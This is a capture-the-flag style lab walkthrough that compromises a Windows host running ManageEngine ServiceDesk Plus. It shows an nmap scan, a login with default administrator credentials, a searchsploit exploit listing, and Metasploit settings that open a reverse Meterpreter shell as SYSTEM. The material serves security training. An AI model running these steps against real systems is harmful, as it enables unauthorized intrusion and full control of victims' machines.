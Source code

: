 # Helpdesk

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.43 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 14:37 +08
Nmap scan report for 192.168.201.43
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

RDP is available.

### ManageEngine RCE --> SYSTEM

Port 8080 hosts a really vulnerable looking software:

<figure><img src="../../../.gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

Default creds of `administrator:administrator` works in logging us in:

<figure><img src="../../../.gitbook/assets/image (378).png" alt=""><figcaption></figcaption></figure>

There are loads of vulnerabilities with this software.&#x20;

```
$ searchsploit manageengine servicedesk Plus  
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ManageEngine ServiceDesk Plus 7.6 - woID SQL Injection     | jsp/webapps/11793.txt
ManageEngine ServiceDesk Plus 8.0 - Directory Traversal    | jsp/webapps/17437.txt
ManageEngine ServiceDesk Plus 8.0 - Multiple Persistent Cr | jsp/webapps/17713.txt
ManageEngine ServiceDesk Plus 8.0 Build 8013 - Multiple Cr | jsp/webapps/17586.txt
ManageEngine ServiceDesk Plus 8.0.0 Build 8013 - Improper  | multiple/webapps/17572.txt
ManageEngine ServiceDesk Plus 8.1 - Persistent Cross-Site  | windows/webapps/20356.py
ManageEngine ServiceDesk Plus 9.0 - Authentication Bypass  | java/webapps/42037.txt
ManageEngine ServiceDesk Plus 9.0 - SQL Injection          | jsp/webapps/35890.txt
ManageEngine ServiceDesk Plus 9.0 - User Enumeration       | jsp/webapps/35891.txt
ManageEngine ServiceDesk Plus 9.0 < Build 9031 - User Priv | jsp/webapps/35904.txt
ManageEngine ServiceDesk Plus 9.1 build 9110 - Directory T | jsp/webapps/38395.txt
ManageEngine ServiceDesk Plus 9.2 Build 9207 - Unauthorize | java/webapps/40569.txt
ManageEngine ServiceDesk Plus 9.3 - User Enumeration       | java/webapps/46674.txt
Zoho ManageEngine ServiceDesk Plus (SDP) < 10.0 build 1001 | jsp/webapps/46413.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'PurchaseRequest. | java/webapps/46966.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'SearchN.do' Cros | java/webapps/46965.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'SiteLookup.do' C | java/webapps/46963.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'SolutionSearch.d | java/webapps/46964.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - Cross-Site Script | multiple/webapps/46895.txt
Zoho ManageEngine ServiceDesk Plus < 10.5 - Improper Acces | multiple/webapps/46894.txt
Zoho ManageEngine ServiceDesk Plus MSP 9.4 - User Enumerat | java/webapps/50027.py
----------------------------------------------------------- ---------------------------------
```

I was lazy, so I used `msfconsole` to exploit this easily.&#x20;

```
msf6 exploit(multi/http/manageengine_auth_upload) > set USERNAME administrator
USERNAME => administrator
msf6 exploit(multi/http/manageengine_auth_upload) > set PASSWORD administrator
PASSWORD => administrator
msf6 exploit(multi/http/manageengine_auth_upload) > set LHOST tun0
LHOST => 192.168.45.191
msf6 exploit(multi/http/manageengine_auth_upload) > set RHOSTS 192.168.201.43
RHOSTS => 192.168.201.43
msf6 exploit(multi/http/manageengine_auth_upload) > exploit
```

This would give us a Meterpreter shell as the SYSTEM user:

<figure><img src="../../../.gitbook/assets/image (48) (2).png" alt=""><figcaption></figcaption></figure>
